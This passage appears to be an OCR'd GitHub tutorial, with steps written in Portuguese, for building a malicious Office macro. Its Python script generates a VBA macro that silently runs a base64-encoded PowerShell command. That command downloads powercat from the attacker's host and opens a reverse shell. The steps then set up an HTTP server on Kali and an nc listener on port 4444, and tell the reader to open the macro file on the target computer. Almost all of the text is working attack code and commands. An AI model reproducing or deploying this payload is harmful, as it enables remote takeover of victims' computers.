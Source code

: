 ```python

Sub MyMacro()
    Dim Str As String
    {}
    CreateObject("Wscript.Shell").Run Str
End Sub
"""
    str_full = f"powershell.exe -nop -w hidden -e {cmd_encoded_to_base64.strip()}"
    str = f"powershell.exe -nop -w hidden -e {cmd_encoded_to_base64.strip()}"

    n = 50

    for i in range(0, len(str), n):
        str = str + "\n    Str = Str + " + '"' + str[i:i+n].strip() + '"'

    return full_script.format(str.replace(str_full, ''))


def main():
    ip = input("Enter the attacker's ip off attackant host: ")
    ncat_port = input("Enter with the ncat port used to create reverse shell: ")
    cmd = f"IEX(New-Object System.Net.WebClient).DownloadString('http://{ip}/powercat.ps1');powercat -c {ip} -p {ncat_port} -e powershell"
    print("command to encode to base64:", cmd)
    cmd = convert_to_base64_utf16le(cmd)
    print("command encoded to base64:", cmd)
    script = prepare_vba_script(cmd)
    print("========== VBA Script ==========") 
    print(script)


main()
```

3. Prepare a máquina atacante para o shell reverse, entre no seguinte diretório no kali linux

```shell
cd /usr/share/powershell-empire/empire/server/data/module_source/management
```

4. Use o comando do python para subir um servidor neste diretório

```shell
python3 -m http.server 80
```

5. Abra outra aba no terminal com `Ctrl + Shift + t` e rode o comando para ficar escutando na porta 4444 no ncat 

```shell
nc -nvlp 4444
```

6. Agora abra o arquivo com a Marco no computador alvo e o shell reverse deve ocorrer
